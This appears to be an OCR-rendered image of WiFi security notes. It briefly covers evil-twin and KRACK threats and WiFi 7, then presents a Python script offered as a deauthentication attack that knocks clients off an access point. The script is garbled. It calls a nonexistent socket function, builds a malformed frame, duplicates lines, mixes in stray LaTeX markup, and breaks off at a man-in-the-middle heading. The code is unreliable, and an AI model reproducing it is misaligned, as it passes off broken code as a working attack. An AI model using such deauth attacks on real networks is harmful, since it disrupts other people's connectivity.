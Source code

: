 * Rogue AP / Evil Twin:
Usurps legitimate AP identity to intercept data or launch man-in-the-middle attacks.

* KRACK and Implementation Vulnerabilities:
Attacks on the WPA2 handshake exploiting retransmission vulnerabilities.

These threats reinforce why the combination of robust protocols, secure configurations, and monitoring is essential.

5. Future Outlook
* WiFi 7 (IEEE 802.11be):
Promises further speed, reliability, and enhanced security, expected to become the new mainstream in the near future.

* Greater IoT Integration:
Emerging standards and protocol extensions will focus on ensuring secure mass deployments of IoT devices, leveraging technologies like WiFi HaLow.

-------------------------------------------------------------------------------

* Wireless Network Attacks

* 1. Deauthentication Attack

This attack involves sending deauthentication packets to disconnect legitimate clients from an access point. The attacker can then reconnect to the access point with the same credentials and potentially launch further attacks. An example of the attack in Python would look similar to this script:

\begin{verbatim}
\texttt{\# python}

\texttt{import socket}
def deauth_client(bssid, channel):
    # create a socket object
    s = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.ntohs(0x00003))
    # get the MAC address of the target access point
    ap_mac = socket.ether_aton('00:00:00:00:00:00')
    # create a deauthentication packet
    deauth_packet = bytearray(len(ap_mac) + 1 + 6)
    deauth_packet[0] = 0x8c
    deauth_packet[0] = 0x8c
    deauth_packet[1] = 0x00
    deauth_packet[2] = 0x00
    deauth_packet[3] = 0x00
    deauth_packet[4] = 0x00
    deauth_packet[5] = 0x00
    for i in range(6):
        deauth_packet[6+i] = ap_mac[i]
    # send the deauthentication packet
\end{verbatim}
\texttt{s.sendto(deauth\_packet, (bssid, channel))}

\texttt{s.sendto(deauth\_packet, (bssid, channel))}




  \texttt{s.close()}
2. Man-in-the-Middle   (MITM) Attack

